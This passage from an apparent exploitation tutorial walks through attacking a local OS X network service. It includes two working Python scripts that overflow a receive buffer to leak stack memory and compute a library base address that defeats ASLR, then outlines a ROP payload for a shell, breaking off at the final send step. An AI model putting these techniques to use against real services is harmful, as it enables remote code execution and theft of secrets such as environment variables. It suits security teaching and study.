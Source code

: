 Now we're ready to complete the pwning. We can write to arbitrary memory, and we have a payload that'll give us a shell if we plug in a library address and write the payload to the stack.

There's just one more hurdle... [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization). On OSX, the libraries are randomly placed into memory on boot. They slide around, but they're always the same relative to eachother, so if we have the address of one, we have the address for them all. There are a few platform-specific ways to defeat ASLR, but in this case, we can actually get the program itself to tell us what we need to know.

By overwriting the offset, we can get the program to dump its memory for us:

```
#!/usr/bin/env python

import socket, struct, time

s = socket.create_connection(('127.0.0.1', 2000))
s.send('x' * 512) # fill _recvBuffer
s.send('y' * 4)   # fill _recvBytes alignment padding
s.send(struct.pack('<Q', 0x300)) # fill _recvBytes
time.sleep(1) # send the newline after _recvBytes has been overwritten
s.send('\n')
print(s.recv(4096).encode('hex'))
```

This happens to be stack memory, so if we were to dump more, we could actually get a lot of interesting information including environment variables. That alone can be really valuable since a lot of people carry the bad habit of putting sensitive information in environment variables, but what we want to get out of this is the offset of the libraries. Just look through the dump for a pointer to anything in one of those libraries.

The first one I see is a pointer to ``libdyld.dylib`start``. So using that, we can exploit a remote machine with a three-step process...

**Step 1** – Get a library address:

```
#!/usr/bin/env python

import socket, struct, time

s = socket.create_connection(('127.0.0.1', 2000))
s.send('x' * 512) # fill _recvBuffer
s.send('y' * 4)   # fill _recvBytes alignment padding
s.send('\x00\x03\x00\x00\x00\x00\x00\x00') # fill _recvBytes
time.sleep(1) # send the newline after _recvBytes has been overwritten
s.send('\n')
address = struct.unpack_from('<Q', s.recv(4096), 516 + 21 * 8)[0] - 0x35C9
print('/usr/lib/system/libdyld.dylib is at 0x{:x}'.format(address))
```

**Step 2** – Compile the ROP payload with the obtained address. If there's a newline in any of the addresses, you may need to make some adjustments to work around that. A newline before the last 512 bytes would cause the exploit to fail.

**Step 3** – Send the payload:
